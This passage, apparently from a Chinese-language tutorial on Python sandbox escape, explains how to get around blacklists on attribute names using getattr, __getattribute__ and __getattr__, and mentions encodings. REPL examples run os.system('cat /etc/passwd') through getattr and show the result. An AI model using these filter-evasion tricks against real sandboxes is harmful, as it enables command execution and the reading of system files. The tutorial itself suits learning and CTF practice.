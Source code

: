 #### 其他编码
hex、rot13、base32 等。


### 过滤了属性名或者函数名
在 payload 的构造中，我们大量的使用了各种类中的属性，例如 `__class__`、`__import__` 等。
#### getattr 函数
getattr 是 Python 的内置函数，用于获取一个对象的属性或者方法。其语法如下：

```python
getattr(object, name[, default])
```
这里，object 是对象，name 是字符串，代表要获取的属性的名称。如果提供了 default 参数，当属性不存在时会返回这个值，否则会抛出 AttributeError。

```py
>>> getattr({},'__class__')
<class 'dict'>
>>> getattr(os,'system')
<built-in function system>
>>> getattr(os,'system')('cat /etc/passwd')
root:x:0:0:root:/root:/usr/bin/zsh
>>> getattr(os,'system111',os.system)('cat /etc/passwd')
root:x:0:0:root:/root:/usr/bin/zsh
```
这样一来，就可以将 payload 中的属性名转化为字符串，字符串的变换方式多种多样，更易于绕过黑名单。

#### `__getattribute__` 函数
`__getattribute__` 于，它定义了当我们尝试获取一个对象的属性时应该进行的操作。

它的基本语法如下：

```python
class MyClass:
    def __getattribute__(self, name):
```
getattr 函数在调用时，实际上就是调用这个类的 `__getattribute__` 方法。
```py
>>> os.__getattribute__
<method-wrapper '__getattribute__' of module object at 0x7f06a9bf44f0>
>>> os.__getattribute__('system')
<built-in function system>
```

#### `__getattr__` 函数
`__getattr__` 是 Python 的一个特殊方法，当尝试访问一个对象的不存在的属性时，它就会被调用。它允许一个对象动态地返回一个属性值，或者抛出一个 `AttributeError` 异常。

如下是 `__getattr__` 方法的基本形式：

```python
class MyClass:
    def __getattr__(self, name):
        return 'You tried to get ' + name
```

在这个例子中，任何你尝试访问的不存在的属性都会返回一个字符串，形如 "You tried to get X"，其中 X 是你尝试访问的属性名。

